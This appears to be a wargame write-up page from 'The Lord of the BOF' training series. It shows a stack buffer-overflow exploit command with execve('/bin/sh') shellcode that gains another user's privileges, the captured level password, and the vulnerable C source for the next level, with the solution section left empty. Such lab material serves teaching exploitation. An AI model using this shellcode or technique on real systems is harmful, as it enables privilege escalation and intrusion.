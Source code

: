 ``` bash2
[golem@localhost golem]$ /home/golem/darkknight `python -c 'print "AAAA"+"\x9c\xfa\xff\xbf"+"\x90"*7+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"+"\x94"'`
AAAA??퓧??????1픐h//shh/bin??S??柰
                                     ???퓹??욤?옹	@
bash$ id
uid=511(golem) gid=511(golem) euid=512(darkknight) egid=512(darkknight) groups=511(golem)
bash$ my-pass
euid = 512
new attacker
```

# darkknight

password is new attacker

### Problem

``` bash2
[darkknight@localhost darkknight]$ cat bugbear.c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - bugbear
        - RTL1
*/

#include <stdio.h>
#include <stdlib.h>

main(int argc, char *argv[])
{
	char buffer[40];
	int i;

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	if(argv[1][47] == '\xbf')
	{
		printf("stack betrayed you!!\n");
		exit(0);
	}

	strcpy(buffer, argv[1]);
	printf("%s\n", buffer);
}
```

### Solution
